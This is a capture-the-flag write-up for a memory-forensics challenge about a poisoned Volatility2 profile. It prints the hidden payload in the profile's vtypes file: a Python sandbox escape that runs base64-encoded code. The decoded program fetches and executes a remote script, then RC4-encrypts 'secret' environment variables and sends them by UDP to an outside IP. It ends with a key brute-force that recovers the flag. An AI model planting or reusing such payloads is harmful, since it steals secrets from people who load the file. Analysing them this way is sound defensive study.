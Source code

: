 ```yaml
---
layout: Post
type: chall
---
```

# Mack'os

<a class="back-link" href="../../">< Go back</a>

## Description

R : La forensique mémoire avec Volatility2 est ma grande passion, et ce depuis sa sortie en août 2006 ! Récemment, j'ai même participé à un concours d'analyse mémoire sur un chat IRC assez rétro. Même si j'ai eu quelques difficultés à trouver le bon profil à utiliser, un utilisateur nommé "jonas_kahnwald44" a pu m'en fournir un fonctionnel. Maintenant que j'en parle, j'ai remarqué un message inattendu lors de l'exécution de Volatility2 avec ce profil. Pourriez-vous jeter un oeil à cette capture réseau réalisée sur mon serveur d'analyse ?

EN : Memory forensics with Volatility2 has been my great passion since its release in August 2006! Recently, I even participated in a memory analysis contest on a rather retro IRC chat. Although I had some difficulties finding the right profile to use, a user named "jonas_kahnwald44" was able to provide me with a functional one. Now that I mention it, I noticed an unexpected message while running Volatility2 with this profile. Could you take a look at this network capture made on my analysis server?

Author: Abyss Watcher

all files in [resources/](./resources) were provided.

## Challenge

Looking at the network logs from [Mackos.pcap](resources/Mackos.pcap) we see volatility logs in `tcp.stream eq 0` at the end we see some sort of IRC chat logs

```
analyst@forensic_server:~$ cp file_server/good_profile.zip volatility/volatility/plugins/overlays/mac/

analyst@forensic_server:~$ python2 volatility/vol.py -f evidences/mac_dump.raw --profile Macgood_profilex64 mac_version

<c_dump.raw --profile Macgood_profilex64 mac_version
Volatility Foundation Volatility Framework 2.6.1
hello fellow analyst ! just checking a few things do not mind :)
Darwin Kernel Version 13.2.0: Thu Apr 17 23:03:13 PDT 2014; root:xnu-2422.100.13~1/RELEASE_X86_64
analyst@forensic_server:~$
```

The other person executed a python2 script, we can download [good_profile.zip](good_profile.zip) to view what happened, unzipping it and looking at [dwarf.txt.conv.vtypes](dwarf.txt.conv.vtypes) we see:

```
'custom_element': [0x2, [[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('echo "hello fellow analyst ! just checking a few things do not mind :)" && python2 -c \'import base64; exec(base64.b64decode("IyEvdXN...Q5NSkpCg=="))\'')]],
```

We can decode this huge base64 into another python2 program:

```py

# _=((()>[])+(()>[]));
# __=(((_<<_)<<_)*_);
# ___=('c%'[::  ... very long ...  )>[]))))))

# Deciphered:

_=2
__=64
___="https://gist.github.com/hsauers5/491f9dde975f1eaa97103427eda50071/raw/a8f66f1f9e77b2db28bab1328db274f05722b535/rc4.py"

m = types.ModuleType('')
exec(urlopen(___).read().decode('utf-8'), m.__dict__)
k = '%d' % int(time.time())
enc = m.encrypt(
  str(
    [{a:b} for a,b in os.environ.items() if a.lower().startswith('secret')]
  ),
  k
)
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(enc, ('83.84.179.243', 16495))

```

This program steals the users "secret" environment variables trough an websocket, they get encrypted trough the rc4 algorithm (from the gist) and the secret key which is the current timestamp.

Inside wireshark we find the encrypted text that was exfiltrated:

```
0X570X6A0XC50X5F0XDE0XC60X2D0XED0X7A0XF0XD90X850XBD0XC40X2A0XD60XE00X6E0X8A0XCC0X660XDB0XDE0X570X430XD20XB10X700XAC0X200X4A0XE30X4E0X620X5B0XBD0XF60X140XDD0X900XD50X2E0XF00XF90X260X6D0X490X830XAB0X310XAA0X3A0XD10X2A0X490X850X5E0X900XCE0X530X3B0XF40X480XAD0X640X540X550X330X530XF70X6A0XB80XE7
```

We can start by downloading the gist ourselves and trying to find the timestamp used for the key, to do that we can enamble UTC timestamps in wireshark and grab a large range of times, we can quickly bruteforce a batch.

```py
key = 1708172370
    while True:
        result = decrypt(ciphertext, str(key))
        # if key > 1708173370:
        #     break
        if 'secret' in result:
            print(result)
            break
        key += 1
# [{'secret_technique': '  MCTF{my_secret_f0rens1c_tool_is_ripgrep!.!.!}'}]
```
